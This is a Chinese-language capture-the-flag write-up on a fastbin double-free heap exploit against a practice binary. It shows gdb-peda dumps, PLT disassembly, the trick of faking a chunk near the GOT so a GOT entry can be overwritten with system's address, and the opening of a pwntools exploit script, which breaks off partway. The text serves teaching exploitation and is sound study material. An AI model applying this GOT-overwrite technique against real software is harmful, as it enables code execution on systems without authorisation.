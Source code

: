 
```
再次malloc一次,并填写数据,发现fd已经被改写
```
gdb-peda$ p/x main_arena.fastbinsY
$14 = {0x601020, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0}
gdb-peda$ x/4gx 0x601020
0x601020:	0x0000000000000000	0x0000000000000021
0x601030:	0x0000000000601000	0x0000000000000000
gdb-peda$ x/4gx 0x0000000000601000
0x601000:	0x0000000000000000	0x0000000000000021
0x601010:	0x0000000061616161	0x0000000000000000
```
**注意:**

我们如果想要覆盖fd到然后再malloc过去,修改数据,需要malloc过的那个chunk的size要正确,我们可以指在没有调用过的GOT上,因为64为GOT为0x40***,那个0x40我们可以当作size来用,这也是唯一的检查
**exp**: 首先`vim a.out`修改ld的位置,改到一个具有debug功能的libc

三次malloc之后,再次malloc,就获得了我们伪造的fastbin
```
gdb-peda$ x/4gx 0x60102a
0x60102a:       0x069600007ffff7aa      0xe9a0000000000040
0x60103a:       0xb65300007ffff7ab      0x53f400007ffff7a5
```
plt初代码如下,我们伪造的chunk在0x601030附近,通过malloc到0x601030附近的那个chunk,然后修改chunk,将malloc@GOT的值修改为system的地址
```
   0x4006a0 <system@plt>:	jmp    QWORD PTR [rip+0x20098a]        # 0x601030
   0x4006a6 <system@plt+6>:	push   0x3
   0x4006ab <system@plt+11>:	jmp    0x400660
   0x4006b0 <memset@plt>:	jmp    QWORD PTR [rip+0x200982]        # 0x601038
   0x4006b6 <memset@plt+6>:	push   0x4
   0x4006bb <memset@plt+11>:	jmp    0x400660
   0x4006c0 <__libc_start_main@plt>:	jmp    QWORD PTR [rip+0x20097a]        # 0x601040
   0x4006c6 <__libc_start_main@plt+6>:	push   0x5
   0x4006cb <__libc_start_main@plt+11>:	jmp    0x400660
   0x4006d0 <__gmon_start__@plt>:	jmp    QWORD PTR [rip+0x200972]        # 0x601048
   0x4006d6 <__gmon_start__@plt+6>:	push   0x6
   0x4006db <__gmon_start__@plt+11>:	jmp    0x400660
   0x4006e0 <gets@plt>:	jmp    QWORD PTR [rip+0x20096a]        # 0x601050
   0x4006e6 <gets@plt+6>:	push   0x7
   0x4006eb <gets@plt+11>:	jmp    0x400660
   0x4006f0 <malloc@plt>:	jmp    QWORD PTR [rip+0x200962]        # 0x601058
```

最终的exp
```python
#!/usr/bin/env python
from pwn import *

p = process('./fastbin-double-free')
elf = ELF('./fastbin-double-free')
context.terminal = ['tmux', 'splitw', '-h']   #程序在在tmux中运行,

def cmd(x):
	p.recvuntil('>')
	p.sendline(x)

def malloc(i, size, s):
	cmd('1 {} {}\n{}'.format(str(i), str(size), s))

def free(i):
	cmd('2 {}'.format(str(i)))

sh = elf.symbols['sh']            # sh函数的地址   0x400816
system_got = elf.got['system']    # system got位置   0x601030
```